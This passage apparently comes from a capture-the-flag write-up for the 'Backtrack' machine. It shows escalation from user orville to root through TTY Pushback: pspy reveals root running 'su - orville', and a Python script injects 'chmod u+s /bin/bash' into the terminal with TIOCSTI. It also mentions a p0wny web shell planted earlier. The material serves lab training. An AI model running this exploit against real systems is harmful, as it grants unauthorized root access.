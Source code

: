 ### orville --> root

Checking orville home directory we find a zip file that was recently created.

```terminal
orville@Backtrack:/home/orville$ ls -la
total 64
drwxrwx--- 2 orville orville  4096 Oct 14 11:16 .
drwxr-xr-x 4 root    root     4096 Mar  9  2024 ..
lrwxrwxrwx 1 root    root        9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 orville orville  3771 Mar  9  2024 .bashrc
lrwxrwxrwx 1 root    root        9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 orville orville   807 Mar  9  2024 .profile
-rw------- 1 orville orville    38 Mar  9  2024 flag2.txt
-rwx------ 1 orville orville 42854 Oct 14 11:16 web_snapshot.zip
```

This mean there is a cronjob running, and from inspecting the zip file we find it has /var/www/html files, and it also contains our p0wny shell.

So we can safely say that there is a cronjob backing up the web server files.

Let's run `pspy64` and see what's going on.

![pspy64](12.png)

Here we see something interesting. the root user is switching to user `orville` with the command: `su - orville`.

This can result to a vulnerability called [TTY Pushback](https://www.errno.fr/TTYPushback.html), for more information check the article <https://www.errno.fr/TTYPushback.html>

To exploit it we can use the following script:

```python
import fcntl
import os
import termios

def inject_commands():
    command_sequence = "exit\n/bin/bash -c 'chmod u+s /bin/bash'\n"
    
    for char in command_sequence:
        try:
            ret = fcntl.ioctl(0, termios.TIOCSTI, char)
            if ret == -1:
                print("Error: ioctl()")
        except OSError as e:
            print(f"Error: ioctl() - {e}")

if __name__ == "__main__":
    inject_commands()
```

This script when executed gives /bin/bash the suid bit.
